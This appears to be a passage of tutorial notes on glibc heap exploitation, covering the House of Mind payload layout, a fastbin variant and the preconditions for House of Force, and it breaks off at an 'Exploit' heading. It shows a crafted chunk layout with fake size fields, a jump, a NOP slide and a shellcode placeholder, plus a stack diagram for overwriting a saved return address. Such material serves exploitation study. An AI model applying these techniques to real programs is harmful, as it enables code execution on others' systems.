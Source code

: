 ```
0x09 0x04 0x00 0x00                            |
0x41 0x41 0x41 0x41                            |
[...]                                          |
0x41 0x41 0x41 0x41                           -/

0x09 0x04 0x00 0x00           size
1ST CHUNK ADDR + 8            -\
1ST CHUNK ADDR + 8             | this is the memory address returned that
1ST CHUNK ADDR + 8             | will be returned by heap_for_ptr: it is
1ST CHUNK ADDR + 8             | necessary to write the correct address for
[...]                          | ar_ptr here (256 times)
1ST CHUNK ADDR + 8            -/

0xEB 0x0C 0x90 0x90           jmp + 12

0x0D 0x04 0x00 0x00           size | NON_MAIN_ARENA

0x90 0x90 0x90 0x90           small NOP slide
0x90 0x90 0x90 0x90
0x.. 0x.. SHELLCODE
```
   
##### Fastbin method (This works even now !!! )

if size of ptr2 = 16 then make ar_ptr = pointing to stack ; fb = &(av->fastbins[0]) {under our control} 
*fb = p [derefrenced and written]

```
STACK:   ^
         |
         |      0xRAND_VAL     av->system_mem (av + 1848)
         |         ...
         |      pushed EIP     av->fastbins[0]
         |      pushed EBP     av->max_fast
         |      0x00000000     av->mutex
         |
```


## House of Force 

The most expected one and the easiest too :)

#### Ingredients:

  *  The exploiter must be able to overwrite the top chunk (i.e. the overflow must happen in a chunk that allows to overwrite the wilderness
  *  There is a malloc() call with an exploiter-controllable size
  *  There is another malloc() call where data are controlled by the exploiter

#### Exploit 
